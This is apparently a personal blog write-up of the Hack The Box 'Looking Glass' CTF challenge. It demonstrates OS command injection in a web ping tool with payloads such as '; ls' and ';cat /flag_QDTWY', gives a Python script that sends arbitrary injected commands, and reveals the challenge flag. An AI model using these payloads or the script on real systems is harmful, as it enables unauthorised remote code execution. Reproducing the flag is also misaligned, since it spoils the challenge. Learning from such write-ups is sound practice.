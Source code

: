 ```yaml
---
title: "HTB: Looking Glass"
last_modified_at: 2021-11-07T20:00:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
  - RCE
---
```


# Quick summary

A simple start to the `OWASP Top 10 Task` on HTB.<br>
This challenge focuses on `RCE` (Remote Code Execution)

## Description

> We've built the most secure networking tool in the market, come and check it out!

# Enumeration
Visiting the website at `178.62.18.46:30815`:
![Visiting the website](/assets/htb/looking_glass/visiting_website.png)

Trying to catch the ping with `sudo tcpdump -i tun0 icmp` and running a ping against attacker box gets 100% packet loss.
![Testing ping](/assets/htb/looking_glass/ping_test.png)

It appears that whatever the IP is, there's always 100% packet loss.

## Analysis

Thinking of how this could be implemented on the server side, a common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + $IP);
```

If it's possible to insert a `;` into the `$IP` variable, the attacker can run a seperate command after the `ping`.

```php
system("ping -c 4 172.62.18.46; ls)
```

Here, `ls` would be run as a seperate commands.<br>
Let's see if it works!

# Exploit

Let's try `; ls` at the end of the IP address.

![RCE in Ping](/assets/htb/looking_glass/rce_in_ping.png)

It's now confirmed that the site is vulnerable to `rce`.<br>
Let's try to find the flag!

Running `;ls -la /` to look at files at root level.<br>
There's a suspect file named `flag_QDTWY` and it's world-readable.<br>

![Flag location](/assets/htb/looking_glass/flag.png)

Running `;cat /flag_QDTWY` shows the content of the file.

![Showing flag](/assets/htb/looking_glass/cat_flag.png)

# Others writeups

On my journey of learning and understanding i found the blog:<br>
[ir0nstone](https://ir0nstone.gitbook.io/hackthebox/challenges/web/looking-glass){:target="_blank"}{:rel="noopener noreferrer"}

The author have a good `Automation` and `Checking the Source` sections that I want to try aswell.

## Automation
Python script (with some alterations):

```python
#!/usr/bin/python3

from requests import post

eplots = input('rce>> ')

data = { 'test': 'ping', 'ip_address': f'178.62.0.100; {eplots}', 'submit': 'Test' }
r = post('http://178.62.18.46:30815/', data=data)

res = r.text
res = res.split('packet loss\n')[-1]
res = res.split('</textarea>')[0]

print(res.strip())
```

Running the script with results:
```bash
# ./automation.py 
>> cat /flag_QDTWY
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source
Injecting `;cat index.php` we can see whats happening:
![Checking the Source Code](/assets/htb/looking_glass/checking_the_source.png)

# Pwned confirmation
![Looking Glass Pwned](/assets/htb/looking_glass/looking_glass_pwned.png)